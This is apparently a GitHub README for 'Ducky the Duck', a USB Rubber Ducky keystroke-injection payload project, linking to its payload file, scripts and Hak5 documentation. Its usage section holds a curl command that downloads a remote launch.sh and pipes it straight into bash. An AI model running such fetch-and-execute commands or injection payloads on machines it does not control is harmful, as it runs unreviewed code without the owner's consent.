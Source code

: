 # Ducky the Duck

## Usage

- Rubber ducky

[Payload launch.txt](./launch.txt) (generated from [launch.sh](./launch.sh))

[![asciicast](https://asciinema.org/a/598625.svg)](https://asciinema.org/a/598625)

- Bash

```bash
# curl -sLf 'https://raw.githubusercontent.com/Saverio976/ducky-the-duck/main/launch.sh' | "$(readlink /proc/$$/exe)"
curl -sLf 'https://raw.githubusercontent.com/Saverio976/ducky-the-duck/main/launch.sh' | bash
```

## [Scripts selection info](./script/README.md)

## [Extension info](./extension/README.md)

## Resources

- https://docs.hak5.org/hak5-usb-rubber-ducky/ducky-script-basics/hello-world

- https://github.com/hak5/usbrubberducky-payloads

# License

[The Unlicense](./LICENSE)
